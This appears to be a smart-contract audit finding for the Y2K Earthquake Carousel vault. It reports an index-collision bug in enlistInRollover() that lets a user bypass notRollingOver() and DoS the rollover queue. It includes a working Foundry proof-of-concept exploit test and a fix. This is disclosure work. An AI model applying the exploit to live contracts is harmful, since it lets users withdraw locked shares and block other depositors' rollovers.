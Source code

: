 0xRobocop

medium

# The rolloverQueue can get DoSed due to an incorrect state update

## Summary

On the `mintRollovers()` function when doing a rollover the shares of a given user will get burned in conjunction with the emissions, so he can get the new shares of the new available `epochId`. Because of this, the functions `withdraw()` and `transferFrom()` are protected with the modifier `notRollingOver()`, the user cannot `withdraw` or `transfer` the shares that he is rolling over.

Due to an incorrect state update, the user can bypass the `notRollingOver()` modifier, breaking with that the assumption of `mintRollovers()`.

## Vulnerability Detail

At the end of the `enlistInRollover()` function, we can find the following state update:

`ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;`

This is done even if the `_receiver` was already enlisted in the queue. This causes a collision with the last user that entered the queue, which means that:

`ownerToRollOverQueueIndex[_receiver]  == ownerToRollOverQueueIndex[_lastUser] `

Now `_receiver` could use this collision to bypass the checks made by the modifier `notRollingOver()` when calling `withdraw()` or `transferFrom()`. Because `mintRollovers()` assumes that any user that is enlisted on the queue cannot `withdraw` or `transfer` the shares that were rolled over, it gets broken when trying to burn the corresponding shares.

## Impact

Collision on `ownerToRollOverQueueIndex[]` and `rolloverQueue` DoSed

## Code Snippet

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L268

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L408

## Proof of Concept

1. Paste the following test on EndToEndCarouselTest.t.sol:

```solidity
function testBreakRolloverQueueViaCollisionIndex() public {
        vm.startPrank(USER);

        //warp to deposit period
        vm.warp(begin - 1 days);

        //approve ether deposit
        IERC20(UNDERLYING).approve(premium, 2 ether);
        IERC20(UNDERLYING).approve(collateral, 10 ether);

        //deposit in carousel vaults
        Carousel(premium).deposit(0, 2 ether, USER);
        Carousel(collateral).deposit(0, 10 ether, USER);

        vm.stopPrank();

        vm.startPrank(USER2);

         //warp to deposit period
        vm.warp(begin - 1 days);

        //approve ether deposit
        IERC20(UNDERLYING).approve(collateral, 1 ether);

        //deposit in carousel vault
        Carousel(collateral).deposit(0, 1 ether, USER2);

        vm.stopPrank();

        //mint deposit in queue
        Carousel(collateral).mintDepositInQueue(epochId, 2);
        Carousel(premium).mintDepositInQueue(epochId, 1);

        
        vm.startPrank(USER);
        uint256 balance = Carousel(collateral).balanceOf(USER, epochId);
        Carousel(collateral).enlistInRollover(epochId, balance, USER);
        vm.stopPrank();

        vm.startPrank(USER2);
        uint256 balance2 = Carousel(collateral).balanceOf(USER2, epochId);
        Carousel(collateral).enlistInRollover(epochId, balance2, USER2);
        vm.stopPrank();

        // Different indexes USER2 is after USER
        assertGt(Carousel(collateral).getRolloverIndex(USER2), Carousel(collateral).getRolloverIndex(USER));

        // USER overwrites ownerToRollOverQueueIndex[]
        vm.startPrank(USER);
        Carousel(collateral).enlistInRollover(epochId, balance, USER);
        vm.stopPrank();

        // Same indexes
        assertEq(Carousel(collateral).getRolloverIndex(USER2), Carousel(collateral).getRolloverIndex(USER));

        //warp to end of epoch
        vm.warp(end + 1 days);

        // trigger end epoch
        // Collateral vault wins 
        controller.triggerEndEpoch(marketId, epochId);

        // User can now withdraw because notRollingover thinks he is only rolling over 1 ether.
        vm.startPrank(USER);
        Carousel(collateral).withdraw(epochId, 9 ether, USER, USER);
        vm.stopPrank();

        // mintRollovers() will fail due the attacker not having enough balances
        vm.expectRevert();
        Carousel(collateral).mintRollovers(nextEpochId, 2);
    }
```

2. Run: `forge test --match-contract EndToEndCarouselTest --match-test testBreakRolloverQueueViaCollisionIndex`

## Tool used

Manual Review

## Recommendation

Rewrite it as follows:

```solidity
else {
    // if not, add to queue
    rolloverQueue.push(
    QueueItem({
        assets: _assets,
        receiver: _receiver,
        epochId: _epochId
      })
    );
    ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;
}
        
```